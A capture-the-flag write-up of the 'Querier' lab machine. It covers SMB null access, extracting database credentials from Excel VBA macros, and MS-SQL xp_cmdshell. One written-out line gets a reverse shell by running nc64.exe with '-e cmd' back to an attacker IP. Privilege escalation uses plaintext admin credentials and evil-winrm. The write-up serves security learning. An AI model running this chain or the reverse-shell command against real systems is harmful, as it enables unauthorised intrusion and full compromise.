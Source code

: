 # Querier

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

Interesting that there was a MS-SQL instance publicly open.

### XLSM Credentials

SMB allowed for null credentials to be accessed here:

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>

Within the Reports directory, I found a .xlsm file.

<figure><img src="../../../.gitbook/assets/image (26) (7).png" alt=""><figcaption></figcaption></figure>

We can download this Excel file back to our machine for analysis. Here, I used `oletools` to find out more about the file:

<figure><img src="../../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

We can see how there are VBA Macros within this file. Again, we can use `olevba` to extract the code.

<figure><img src="../../../.gitbook/assets/image (15) (1) (6).png" alt=""><figcaption></figcaption></figure>

We found find this set of credentials for the database here.

<figure><img src="../../../.gitbook/assets/image (11) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can then use `mssqlclient.py` to authenticate as this `reporting` user for the database that is publicly facing forward.

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

### xp\_cmdshell

With access to the MS-SQL Database, I found that we are able to use `xp_cmdshell` to execute commands on the server.

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can easily gain a reverse shell through whatever means. I executed `nc.exe` over SMB.

```
xp_cmdshell "\\<IP>\share\nc64.exe -e cmd <IP> 4444"
```

<figure><img src="../../../.gitbook/assets/image (27) (7).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Now that we're in the machine, I ran winPEAS to enumerate possible escalation vectors. Funnily, it found the Administrator credentials in plaintext within the machine.

<figure><img src="../../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

Earlier, Nmap detected that port 5985 for WinRM was open. As such, we can use `evil-winrm` to gain a shell as the administrator.

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>
